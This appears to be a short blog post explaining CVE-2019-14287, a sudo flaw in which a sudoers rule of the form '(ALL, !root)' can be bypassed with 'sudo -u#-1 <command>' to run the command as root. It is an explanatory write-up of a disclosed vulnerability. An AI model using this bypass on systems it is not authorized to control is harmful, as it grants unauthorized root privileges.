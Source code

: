 # CVE-2019-14287
### October 29, 2021

I personally call this the "i'm you but +1" vulnerability

```
<username> <hostname> = (ALL, !root) /usr/bin/<command>
```

The configuration above means that "username" can perform stuff like any other user except root.

The design flaw in this configuration allows the "username" to run a command as root by crafting the user id using:

```
$ sudo -u#-1 <command>
```
